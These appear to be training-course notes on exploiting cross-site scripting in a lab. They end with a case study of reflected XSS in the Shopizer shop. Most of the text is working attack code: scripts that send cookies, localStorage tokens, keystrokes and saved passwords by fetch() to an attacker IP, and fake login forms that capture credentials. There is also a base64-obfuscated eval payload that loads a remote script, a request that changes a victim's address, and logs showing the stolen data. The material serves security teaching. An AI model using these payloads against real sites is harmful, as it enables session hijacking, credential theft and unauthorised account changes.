


# Module 6: Cross-Site Scripting Exploitation and Case Study

## Cross-Site Scripting - Exploitation

### Accessing The Sandbox

_Start your VPN, the VM, and add the VM's IP to your hosts file._

### Moving the Payload to an External Resource

_Serving xss.js_


```bash
kali@kali:~$ mkdir xss

kali@kali:~$ cd xss

kali@kali:~/xss$ echo "alert(1)" > xss.js

kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption><p>Script payload on Search Application</p></figcaption></figure>

<figure><figcaption><p>Script payload with Alert</p></figcaption></figure>

<figure><figcaption><p>Script Payload loaded on victim</p></figcaption></figure>

_HTTP Server Logs_


```bash
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.49.51 - - [19/Aug/2021 17:32:53] "GET /xss.js HTTP/1.1" 200 -
192.168.121.101 - - [19/Aug/2021 17:45:42] "GET /xss.js HTTP/1.1" 200 -
```


### Stealing Session Cookies

_Updating xss.js to exfiltrate the user's cookie_


```javascript
kali@kali:~/xss$ nano xss.js

kali@kali:~/xss$ cat xss.js
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.49.51/exfil?data=" + encodedCookie)

kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption><p>Script Payload</p></figcaption></figure>

_Empty data parameter in log_


```bash
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.49.51 - - [19/Aug/2021 19:07:14] "GET /xss.js HTTP/1.1" 200 -
192.168.49.51 - - [19/Aug/2021 19:07:14] code 404, message File not found
192.168.49.51 - - [19/Aug/2021 19:07:14] "GET /exfil?data= HTTP/1.1" 404 -
```


<figure><figcaption><p>Rendered payload in victim browser</p></figcaption></figure>

_Cookie in HTTP log (Use Non-HttpOnly Cookie selected)_


```bash
192.168.121.101 - - [19/Aug/2021 19:25:11] "GET /xss.js HTTP/1.1" 200 -
192.168.121.101 - - [19/Aug/2021 19:25:12] code 404, message File not found
192.168.121.101 - - [19/Aug/2021 19:25:12] "GET /exfil?data=session%3DSomeExampleCookie HTTP/1.1" 404 -
```


_No Cookie in HTTP Log (Use HTTPOnly Cookie selected)_

```bash
192.168.121.101 - - [19/Aug/2021 19:27:36] "GET /xss.js HTTP/1.1" 200 -
192.168.121.101 - - [19/Aug/2021 19:27:36] code 404, message File not found
192.168.121.101 - - [19/Aug/2021 19:27:36] "GET /exfil?data= HTTP/1.1" 404 -
```

### Stealing Local Secrets

_Local storage is accessed by using the window.localStorage property, while session storage can be accessed with window.sessionStorage._

_Exfiltrating storage_

```javascript
kali@kali:~/xss$ nano xss.js

kali@kali:~/xss$ cat xss.js
let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.49.51/exfil?data=" + encodedData)

kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

<figure><figcaption><p>Rendering with data in local storage</p></figcaption></figure>

_Contents of the localStorage_


```bash
192.168.121.101 - - [19/Aug/2021 20:09:25] "GET /xss.js HTTP/1.1" 200 -
192.168.121.101 - - [19/Aug/2021 20:09:25] code 404, message File not found
192.168.121.101 - - [19/Aug/2021 20:09:25] "GET /exfil?data=%7B%22token%22%3A%22example-token%22%7D HTTP/1.1" 404 -
```


### Keylogging

_Keylogging payload in xss.js_

```javascript
kali@kali:~/xss$ nano xss.js

kali@kali:~/xss$ cat xss.js
function logKey(event){
        fetch("http://192.168.49.51/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);

kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

_Key Logging Search Application_

```bash
172.16.174.1 - - [20/Aug/2021 16:33:54] "GET /xss.js HTTP/1.1" 200 -
172.16.174.1 - - [20/Aug/2021 16:33:54] code 404, message File not found
172.16.174.1 - - [20/Aug/2021 16:33:54] "GET /k?key=D HTTP/1.1" 404 -
...
172.16.174.1 - - [20/Aug/2021 16:33:59] "GET /k?key=i HTTP/1.1" 404 -
```

### Stealing Saved Passwords

_Modifyin xss.js to steal passwords_


```javascript
kali@kali:~/xss$ nano xss.js

kali@kali:~/xss$ cat xss.js
  1  let body = document.getElementsByTagName("body")[0]
  2
  3  var u = document.createElement("input");
  4  u.type = "text";
  5  u.style.position = "fixed";
  6  //u.style.opacity = "0";
  7
  8  var p = document.createElement("input");
  9  p.type = "password";
 10  p.style.position = "fixed";
 11  //p.style.opacity = "0";
 12
 13  body.append(u)
 14  body.append(p)
 15
 16  setTimeout(function(){ 
 17          fetch("http://192.168.49.51/k?u=" + u.value + "&p=" + p.value)
 18   }, 5000);
 19

kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```


<figure><figcaption><p>Saved creds on page</p></figcaption></figure>

_Saved credentials exfiltrated_


```bash
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.49.51 - - [20/Aug/2021 19:26:56] "GET /xss.js HTTP/1.1" 200 -
192.168.49.51 - - [20/Aug/2021 19:27:01] code 404, message File not found
192.168.49.51 - - [20/Aug/2021 19:27:01] "GET /k?u=Ryuggy&p=ShavedHeadsFTW HTTP/1.1" 404 -
```


<figure><figcaption><p>Saved creds on page with opacity</p></figcaption></figure>

### Phishing Users

<figure><figcaption><p>Search Application Login</p></figcaption></figure>

<figure><figcaption><p>Inspecting the Form</p></figcaption></figure>

_Payload to Phish with Login Form_


```javascript
fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.49.51"
	document.getElementsByTagName("form")[0].method = "get"
}))
```


<figure><figcaption><p>Phishing the victim user</p></figcaption></figure>

_User Credentials in HTTP Logs_


```bash
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.16.174.1 - - [26/Aug/2021 17:53:12] "GET /xss.js HTTP/1.1" 200 -
172.16.174.1 - - [26/Aug/2021 17:53:21] "GET /?username=gullible&password=IMaybeGullibleButMyPasswordsAreStrong HTTP/1.1" 200 -
```


_Creating xss.js as a login page due to no login page present_


```javascript
document.getElementsByTagName("html")[0].innerHTML = "<form action='http://192.168.49.51/cred' method='GET'><input type='text' placeholder='name@example.com' name='username'><input type='password' placeholder='Password' name='password'><button class='w-100 btn btn-lg btn-primary' type='submit'>Sign in</button></form>"
```


_Exploiting innerHTML to execute our script_


```javascript

```


## Case Study: Shopizer Reflected XSS

### Getting Started

_Start VPN, VMs, and add IP to hosts file. Register an account._

### Discovering the Vulnerability

<figure><figcaption><p>Shopizer URL containing an interesting value</p></figcaption></figure>

<figure><figcaption><p>Searching the page source for c:2</p></figcaption></figure>

_The loadCategoryProducts() function_


```javascript
721  function loadCategoryProducts() {
722    var url = '/services/public/products/page/' + START_COUNT_PRODUCTS + '/' + MAX_PRODUCTS + '/DEFAULT/en/handbags';
723  	 	
724    if(filter!=null) {
725      url = url + '/filter=' + filter + '/filter-value=' + filterValue +'';
726    }
727  
728  
729    url = url + '?ref=c:2';
730  
731  
732    loadProducts(url,'#productsContainer');
733  
734  }
```


<figure><figcaption><p>Source code containing our canary value</p></figcaption></figure>

<figure><figcaption><p>The canary value including the single quote inside the JavaScript code</p></figcaption></figure>

_JavaScript error message due to our single quote_


```javascript
Uncaught SyntaxError: Unexpected identifier       ref=c:2'canary:729 
```


<figure><figcaption><p>The application responding with an HTTP 404 when expanding our payload</p></figcaption></figure>

<figure><figcaption><p>Replacing the semicolons with plus marks</p></figcaption></figure>

### Loading Remote Scripts

<figure><figcaption><p>Site map tool in Burp Suite</p></figcaption></figure>

<figure><figcaption><p>Listing of the JavaScript files loaded by Shopizer</p></figcaption></figure>

_Creating a simple JS file_

```bash
kali@kali:~$ mkdir ~/xss/
                    
kali@kali:~$ cd ~/xss/

kali@kali:~/xss$ nano xss.js

kali@kali:~/xss$ cat xss.js
alert('It worked!')

kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

<figure><figcaption><p>Using Burp Suite Decoder to Base64-encode our jQuery.getScript() payload</p></figcaption></figure>

_Base64-encoded payload_


```javascript
'+eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDkuNTEveHNzLmpzJyk='))+'
```


<figure><figcaption><p>JavaScript alert window showing an error</p></figcaption></figure>

<figure><figcaption><p>JavaScript Console Displaying Request Error</p></figcaption></figure>

<figure><figcaption><p>JavaScript Network Tab Displaying Request Error</p></figcaption></figure>

_Updated Base64-encoded payload_


```javascript
'+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDkuNTEveHNzLmpzJyk=')))+'
```


<figure><figcaption><p>JavaScript alert windows showing "It worked!"</p></figcaption></figure>

### Exploiting Reflected XSS

<figure><figcaption><p>My Account page in Shopizer</p></figcaption></figure>

<figure><figcaption><p>Edit Shipping information form</p></figcaption></figure>

_Sample POST request to add or update an address_


```http
POST /shop/customer/updateAddress.html HTTP/1.1
Host: shopizer:8080
Content-Length: 161
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://shopizer:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://shopizer:8080/shop/customer/editAddress.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: navigate-tinymce-scroll=%7B%7D; navigate-language=en; cookieconsent_status=dismiss; JSESSIONID=557F764BDD5F6574EF1E3B6E5A5F662D; user=DEFAULT_tom.jones@local.io
Connection: close

customerId=100&billingAddress=false&firstName=z&lastName=z&company=&address=z&city=z&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change+address
```


<figure><figcaption><p>Updating a shipping address without including a "customerId"</p></figcaption></figure>

_Sample fetch() payload_


```javascript
01  fetch('http://shopizer:8080/shop/customer/updateAddress.html',{
02    method: 'POST',
03    mode: 'same-origin',
04    credentials: 'same-origin',
05    headers: {
06      'Content-Type':'application/x-www-form-urlencoded'
07    }, 
08    body:'customerId=&billingAddress=false&firstName=hax&lastName=hax&company=&address=hax&city=hax&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change address'
09  })
```


_Serving the JS file_


```bash
kali@kali:~$ nano ~/xss/xss.js

kali@kali:~$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption><p>Loading the exploit URL</p></figcaption></figure>

<figure><figcaption><p>Using Burp Suite to verify the POST request was sent</p></figcaption></figure>

<figure><figcaption><p>Verifying the address change on the My Account Page</p></figcaption></figure>

<figure><figcaption><p>Loading payload in XSS Sandbox</p></figcaption></figure>

_HTTP Log Showing xss.js was Loaded_


```bash
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.49.51 - - [02/Sep/2021 19:53:22] "GET /xss.js?_=1630626802542 HTTP/1.1" 200 -
```


<figure><figcaption><p>Rendering payload in XSS Sandbox</p></figcaption></figure>

<figure><figcaption><p>Viewing the Victim's Address</p></figcaption></figure>
